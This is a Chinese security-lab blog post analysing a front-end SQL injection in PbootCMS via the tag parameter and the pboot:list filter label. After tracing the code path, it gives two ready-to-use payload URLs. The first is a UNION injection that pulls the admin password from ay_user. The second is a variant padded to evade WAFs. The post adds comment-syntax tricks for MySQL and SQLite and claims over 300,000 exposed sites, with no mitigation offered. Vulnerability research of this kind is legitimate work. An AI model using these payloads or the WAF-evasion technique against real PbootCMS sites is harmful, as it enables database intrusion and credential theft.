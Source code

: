 #  PbootCMS前台SQL注入漏洞（下）   
原创 烽火台实验室  Beacon Tower Lab   2024-12-24 01:35  
  
**0x01前言**  
  
在前一篇文章中介绍了一个仍然可以用于最新版PbootCMS的老漏洞DVB-2021-2510,并对漏洞流程进行分析，给出了在有限条件下利用漏洞的方式。  
  
  
本文将在前一篇文章的基础上继续给出新的PbootCMS SQL注入漏洞，并对利用方式进行更深入的探讨。  
  
  
  
**0x02漏洞分析**  
  
由于PbootCMS使用了模板的方法来组合产品页面内容，为了支持可扩展性，支持非常复杂的语法，对基础内容想了解的可以先看文章https://xz.aliyun.com/t/14090。  
  
  
apps/home/controller/TagController.php文件中，会把外部传入的数据get('tag')替换模板文件中的内容。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/8E5sfrfkeAOnWGHhvTbA47BOUAlsVxzCJAYKEGZJZibQbyGcr1ofSvKkoq3phfqeZR0z4ynsHF9biakvGZHchib5w/640?wx_fmt=png&from=appmsg "")  
  
图1  
  
  
这里的get('tag')和上一篇文章中的request($key, 'vars')有一个很大的区别是没有第二个参数，我们跟进get方法，看一下没有第二个参数的传值有哪些限制。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/8E5sfrfkeAOnWGHhvTbA47BOUAlsVxzCEOeVEV74LGn277rS6l4dzXf00peZlwNNwsu38jNmRqWVWyYffWH1ZQ/640?wx_fmt=png&from=appmsg "")  
  
图2  
  
  
如果没有传入第二个参数，默认值为null。跟进filter方法，可以看出在filter对类型和数据的安全检查中，第二个参数为null并不会命中任何一个条件判断，也就是不会对数据值进行任何限制。这里因为$condition['d_type']为null也不会因此而报错。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/8E5sfrfkeAOnWGHhvTbA47BOUAlsVxzC1iciadibjyOwblVDcEYiaEoLDEGib5cgOxf1a4wKBQoibicK2WGg6TTkQjknA/640?wx_fmt=png&from=appmsg "")  
  
图3  
  
  
虽然数据类型检测，但是filter方法中仍然有对其值的过滤方式，会替换很多标签相关的内容。这里需要重点标记一下，因为后面的SQL注入要用到这里过滤不完整的标签。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/8E5sfrfkeAOnWGHhvTbA47BOUAlsVxzC4mfnwRya458qt7iacnGTZyDOQ9trokydrZcgldnVTDicHg1RglBfV0cw/640?wx_fmt=png&from=appmsg "")  
  
图4  
  
  
回到图1的代码中，外部传入的get('tag')经过方法parserPositionLabel会替换模板文件中的部分内容，跟进parserPositionLabel方法。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/8E5sfrfkeAOnWGHhvTbA47BOUAlsVxzCbUcW0JibsR69XkOoNufUOGSdFY2WrCCNHQXZjHZynlcZHONiajVp5MCw/640?wx_fmt=png&from=appmsg "")  
  
图5  
  
  
这里外部传入的数据变成了变量$link，并且经过替换之后响应到页面的<a>标签的href属性中。这里假设我们传入了{pboot:xxx}，只要不在图4禁止的pboot标签中，则可能导致标签注入。pboot支持的标签有很多，具体要用哪个标签来达到漏洞利用的效果，还需要继续往下面跟进。  
  
  
在图1的代码中继续往下，跟进parserAfter方法，这个方法中会解析大多数pboot标签。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/8E5sfrfkeAOnWGHhvTbA47BOUAlsVxzCic2soxM06QcpBMKrm1CAJ5TeJIY9ciakAllaZImInsosVVQvbhNQdZcw/640?wx_fmt=png&from=appmsg "")  
  
图6  
  
  
我们这里用到的是parserListLabel方法，这个方法的主要作用是解析数据列表，至于是不是还有其它的方法也可以利用，小伙伴可以自行探索。继续跟进parserListLabel方法。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/8E5sfrfkeAOnWGHhvTbA47BOUAlsVxzCvliaYNSF4h2pmYjUAPUkqPgAceTxKQtkx1W8txPyzabZviaJibuYS4icRw/640?wx_fmt=png&from=appmsg "")  
  
图7  
  
  
如果我们传入的get('tag')的值中包含了{pboot:list}标签，则会按照parserListLabel方法中的解析逻辑对其中的值进行正则提取，并保存到变量$params中。具体parserParam的函数我就不跟了，其实就是简单的正则提取，我们继续往下跟进$params变量的处理逻辑。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/8E5sfrfkeAOnWGHhvTbA47BOUAlsVxzC2K1gwmKLVEOUlYY2VWibjeL4PQEPLiaAZyOGvlReTo0rEkmytSbLn9Uw/640?wx_fmt=png&from=appmsg "")  
  
图8  
  
  
当$params的键名是filter时，也就是外部传入的参数为{pboot:list filter=xxx [list:link link=asd]{/pboot:list}。会把xxxx设置为变量$filter的值，继续跟下面的调用逻辑。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/8E5sfrfkeAOnWGHhvTbA47BOUAlsVxzCDyGic6TpokpOj3DmG9Cm05WeO7hib12icQf6nCoqEcribgtNianC10ymbFw/640?wx_fmt=png&from=appmsg "")  
  
图9  
  
  
按照｜对$filter进行切割之后，其中$filter[0]会直接拼接到$where1数组的值中，从这里已经可以看出来似乎进行了SQL语句的可控拼接。继续往下看一下$where1变量的调用逻辑。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/8E5sfrfkeAOnWGHhvTbA47BOUAlsVxzCmseSeAdhUpicY6PcNo21YybWNpV201MYjpPlKKB2B01LVRPibdwQLqvg/640?wx_fmt=png&from=appmsg "")  
  
图10  
  
  
和上一篇文章的逻辑相似，上一篇文章的注入点在getList方法的参数$where3，这次的注入在参数$where1。跟进getList方法。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/8E5sfrfkeAOnWGHhvTbA47BOUAlsVxzCtltaiaDnru0Fxy0Nc3OXx24leHhN0zO002wFsJ3qIOePpNm1Q0weMNA/640?wx_fmt=png&from=appmsg "")  
  
图11  
  
  
外部传入的$where1变量会直接进入where方法中，从图9可以看出这里的filter时一个数组，并且其键名为数字。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/8E5sfrfkeAOnWGHhvTbA47BOUAlsVxzCCBx8rjaQvhBdSDibOqlDFC2B9icxnGKdQ6EIQE5pfFP2kUkL7Th0hS8g/640?wx_fmt=png&from=appmsg "")  
  
图12  
  
  
这也就导致了SQL注入漏洞。  
  
  
  
**0x03漏洞利用**  
  
从本质上来说此漏洞的漏洞利用要比上一篇文章的利用简单，因为这里不涉及对特殊字符的限制，而且这里有回显可以进行联合注入。在本地搭建的演示环境中进行测试，利用下面的payload查询ay_user表第一个用户的密码字段  
  
  
http://localhost:8890/PbootCMS329?tag=xxx:%7bpboot%3alist%20filter%3d1%3d2%29UNION%2f%2a%2a%2fSELECT%2f%2a%2a%2f1,2,3,4,5,(select/**/password/**/from/**/ay_user/**/limit/**/0,1),7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29%2f%2a%2a%2f%23%2f%2a%2a%2f%7c123%20scode%3d123%7d%5blist%3alink%20link%3dasd%5d%7b%2fpboot%3alist%7d  
  
  
查看源代码，会在如下位置回显对应的结果信息  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/8E5sfrfkeAOnWGHhvTbA47BOUAlsVxzCMX0SRbBCqBe4Hf6pTLMeIqgu8DvwiaZk1xUmKywjjV1Hcibj2Qg0dc0Q/640?wx_fmt=png&from=appmsg "")  
  
图13  
  
  
  
这里面有几个注意点是需要说明的  
  
  
1）payload不允许用空格，因为在图7解析{pboot:list}标签时调用的parserParam方法按照空格进行截断，如下所示。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/8E5sfrfkeAOnWGHhvTbA47BOUAlsVxzCib5VudIsTvPJfic6iaQ3D0PNDObXdxbTYvoXfbpoXoicibRXVFELgcExibhQ/640?wx_fmt=png&from=appmsg "")  
  
图14  
  
  
  
2)  注释符问题。对于mysql数据库，这里只能使用#单行注释，而不能使用--单行注释；对于sqlite数据库，这里只能使用--单行注释，而不能使用#单行注释。这主要还是空格的原因，  
我通过下面一张表来说明这个小技巧。  
  
  
<table><tbody><tr><td colspan="1" rowspan="1" style="border-color: rgb(62, 62, 62);padding: 0px;" width="33.3300%"><section style="padding-right: 5px;padding-left: 5px;text-align: center;"><p style="word-break: break-all;"><span style="background-color: rgb(255, 255, 255);">语句</span></p></section></td><td colspan="1" rowspan="1" style="border-color: rgb(62, 62, 62);padding: 0px;" width="33.3300%"><section style="padding-right: 5px;padding-left: 5px;text-align: center;"><p style="word-break: break-all;"><span style="background-color: rgb(255, 255, 255);">数据库</span></p></section></td><td colspan="1" rowspan="1" style="border-color: rgb(62, 62, 62);padding: 0px;" width="33.3300%"><section style="padding-right: 5px;padding-left: 5px;text-align: center;"><p style="word-break: break-all;"><span style="background-color: rgb(255, 255, 255);">备注</span></p></section></td></tr><tr><td colspan="1" rowspan="1" style="border-color: rgb(62, 62, 62);padding: 0px;" width="33.3300%"><section style="padding-right: 5px;padding-left: 5px;text-align: center;"><p style="word-break: break-all;">select 1 --a</p></section></td><td colspan="1" rowspan="1" style="border-color: rgb(62, 62, 62);padding: 0px;" width="33.3300%"><section style="padding-right: 5px;padding-left: 5px;text-align: center;"><p style="word-break: break-all;">mysql</p></section></td><td colspan="1" rowspan="1" style="border-color: rgb(62, 62, 62);padding: 0px;" width="33.3300%"><section style="padding-right: 5px;padding-left: 5px;text-align: center;"><p style="word-break: break-all;">语法错误，--后面必须有空白字符</p></section></td></tr><tr><td colspan="1" rowspan="1" style="border-color: rgb(62, 62, 62);padding: 0px;" width="33.3300%"><section style="padding-right: 5px;padding-left: 5px;text-align: center;"><p style="word-break: break-all;">select 1 --/**/a</p></section></td><td colspan="1" rowspan="1" style="border-color: rgb(62, 62, 62);padding: 0px;" width="33.3300%"><section style="padding-right: 5px;padding-left: 5px;text-align: center;"><p style="word-break: break-all;">mysql</p></section></td><td colspan="1" rowspan="1" style="border-color: rgb(62, 62, 62);padding: 0px;" width="33.3300%"><section style="padding-right: 5px;padding-left: 5px;text-align: center;"><p style="word-break: break-all;">语法错误，--后面必须有空白字符</p></section></td></tr><tr><td colspan="1" rowspan="1" style="border-color: rgb(62, 62, 62);padding: 0px;" width="33.3300%"><section style="padding-right: 5px;padding-left: 5px;text-align: center;"><p style="word-break: break-all;">select 1 -- a</p></section></td><td colspan="1" rowspan="1" style="border-color: rgb(62, 62, 62);padding: 0px;" width="33.3300%"><section style="padding-right: 5px;padding-left: 5px;text-align: center;"><p style="word-break: break-all;">mysql</p></section></td><td colspan="1" rowspan="1" style="border-color: rgb(62, 62, 62);padding: 0px;" width="33.3300%"><section style="padding-right: 5px;padding-left: 5px;text-align: center;"><p style="word-break: break-all;">语法正确</p></section></td></tr><tr><td colspan="1" rowspan="1" style="border-color: rgb(62, 62, 62);padding: 0px;" width="33.3300%"><section style="padding-right: 5px;padding-left: 5px;text-align: center;"><p style="word-break: break-all;">select 1 #a</p></section></td><td colspan="1" rowspan="1" style="border-color: rgb(62, 62, 62);padding: 0px;" width="33.3300%"><section style="padding-right: 5px;padding-left: 5px;text-align: center;"><p style="word-break: break-all;">mysql</p></section></td><td colspan="1" rowspan="1" style="border-color: rgb(62, 62, 62);padding: 0px;" width="33.3300%"><section style="padding-right: 5px;padding-left: 5px;text-align: center;"><p style="word-break: break-all;">语法正确</p></section></td></tr><tr><td colspan="1" rowspan="1" style="border-color: rgb(62, 62, 62);padding: 0px;" width="33.3300%"><section style="padding-right: 5px;padding-left: 5px;text-align: center;"><p style="word-break: break-all;">select 1 # a</p></section></td><td colspan="1" rowspan="1" style="border-color: rgb(62, 62, 62);padding: 0px;" width="33.3300%"><section style="padding-right: 5px;padding-left: 5px;text-align: center;"><p style="word-break: break-all;">mysql</p></section></td><td colspan="1" rowspan="1" style="border-color: rgb(62, 62, 62);padding: 0px;" width="33.3300%"><section style="padding-right: 5px;padding-left: 5px;text-align: center;"><p style="word-break: break-all;">语法正确</p></section></td></tr><tr><td colspan="1" rowspan="1" style="border-color: rgb(62, 62, 62);padding: 0px;" width="33.3300%"><section style="padding-right: 5px;padding-left: 5px;text-align: center;"><p style="word-break: break-all;">select 1 --a</p></section></td><td colspan="1" rowspan="1" style="border-color: rgb(62, 62, 62);padding: 0px;" width="33.3300%"><section style="padding-right: 5px;padding-left: 5px;text-align: center;"><p style="word-break: break-all;">sqlite</p></section></td><td colspan="1" rowspan="1" style="border-color: rgb(62, 62, 62);padding: 0px;" width="33.3300%"><section style="padding-right: 5px;padding-left: 5px;text-align: center;"><p style="word-break: break-all;">语法正确，--后面可以没有空格</p></section></td></tr><tr><td colspan="1" rowspan="1" style="border-color: rgb(62, 62, 62);padding: 0px;" width="33.3300%"><section style="padding-right: 5px;padding-left: 5px;text-align: center;"><p style="word-break: break-all;">select 1 -- a</p></section></td><td colspan="1" rowspan="1" style="border-color: rgb(62, 62, 62);padding: 0px;" width="33.3300%"><section style="padding-right: 5px;padding-left: 5px;text-align: center;"><p style="word-break: break-all;">sqlite</p></section></td><td colspan="1" rowspan="1" style="border-color: rgb(62, 62, 62);padding: 0px;" width="33.3300%"><section style="padding-right: 5px;padding-left: 5px;text-align: center;"><p style="word-break: break-all;">语法正确</p></section></td></tr><tr><td colspan="1" rowspan="1" style="border-color: rgb(62, 62, 62);padding: 0px;" width="33.3300%"><section style="padding-right: 5px;padding-left: 5px;text-align: center;"><p style="word-break: break-all;">select 1 #a</p></section></td><td colspan="1" rowspan="1" style="border-color: rgb(62, 62, 62);padding: 0px;" width="33.3300%"><section style="padding-right: 5px;padding-left: 5px;text-align: center;"><p style="word-break: break-all;">sqlite</p></section></td><td colspan="1" rowspan="1" style="border-color: rgb(62, 62, 62);padding: 0px;" width="33.3300%"><section style="padding-right: 5px;padding-left: 5px;text-align: center;"><p style="word-break: break-all;">语法错误，不支持#注释</p></section></td></tr><tr><td colspan="1" rowspan="1" style="border-color: rgb(62, 62, 62);padding: 0px;" width="33.3300%"><section style="padding-right: 5px;padding-left: 5px;text-align: center;"><p style="word-break: break-all;">select 1 # a</p></section></td><td colspan="1" rowspan="1" style="border-color: rgb(62, 62, 62);padding: 0px;" width="33.3300%"><section style="padding-right: 5px;padding-left: 5px;text-align: center;"><p style="word-break: break-all;">sqlite</p></section></td><td colspan="1" rowspan="1" style="border-color: rgb(62, 62, 62);padding: 0px;" width="33.3300%"><section style="padding-right: 5px;padding-left: 5px;text-align: center;"><p style="word-break: break-all;">语法错误，不支持#注释</p></section></td></tr></tbody></table>  
  
  
  
因为PbootCMS的payload不允许使用空格，所以造成了一个很奇怪的结论。  
  
  
3) 在实网环境下，不同的站点union select的函数是不一样的，要基于实际情况进行调整。  
  
  
虽然我们现在已经能完全的对目标进行注入（包括mysql和sqlite两种数据库），而且是有回显的联合查询，但是当前的payload特征非常明显，极易被WAF查杀。有没有某种绕过WAF的方式呢？  
  
  
当然是有的，PbootCMS有复杂的模板替换逻辑，只要找一个字符串替换为空的操作，然后在关键字中一直插入干扰字符，就可以轻易绕过WAF，如果你现在倒回去看一下图4，你就会发现x3e｜x3c会是一个不错的选择，例如你可以使用使用下面的payload  
  
  
http://localhost:8890/PbootCMS329?tag=xxx:%7bpboot%3alist%20filter%3d1%3d2%29UNIx3eON%2fx3e%2a%2a%2fSELx3eECT%2fx3e%2a%2a%2f1,2,3,4,5,(selx3eect/**/pax3essword/**/frx3eom/x3e**/ay_user/**/lix3emit/x3e**/0,1),7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29%2f%2a%2a%2f%23%2f%2a%2a%2f%7c123%20scode%3d123%7d%5blist%3alink%20link%3dasd%5d%7b%2fpboot%3alist%7d  
  
  
  
  
**0x04 结论**  
  
当前我们已经能无限制的对PbootCMS进行SQL注入了，有超过30W的互联网案例都受此漏洞影响。我认为这是2024最好用的漏洞，你觉得呢？  
  
  
  
  
  
  
